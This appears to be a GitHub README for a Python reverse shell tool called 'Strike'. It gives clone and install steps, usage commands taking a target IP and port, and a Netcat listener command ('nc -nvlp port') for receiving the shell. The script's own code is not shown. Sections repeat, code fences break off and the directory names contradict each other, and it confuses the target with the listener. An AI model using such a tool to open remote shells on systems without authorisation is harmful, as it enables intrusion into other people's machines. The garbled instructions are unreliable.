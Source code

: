 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/

2. Change into the project directory:
    ```bash
   cd strike

#Configuration

No specific configuration is required for this script. However, you need to specify the target IP and port using command-line arguments.


## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- **Python 3.x**
- **psutil** library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
Change into the project directory:

bash
Copy code
cd reverse-shell-generator
Install the required dependencies (in this case, psutil):

bash
Copy code
pip install psutil
Configuration
No specific configuration is required for this script. However, you need to specify the target IP and port using command-line arguments.

#Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER

#How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace TARGET_IP with the IP address of the target machine.
- Replace PORT_NUMBER with the port number to connect to on the target machine.
- The script will create a reverse shell connection to the specified IP and port.

#IMPORTANT

You want to start listen to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port
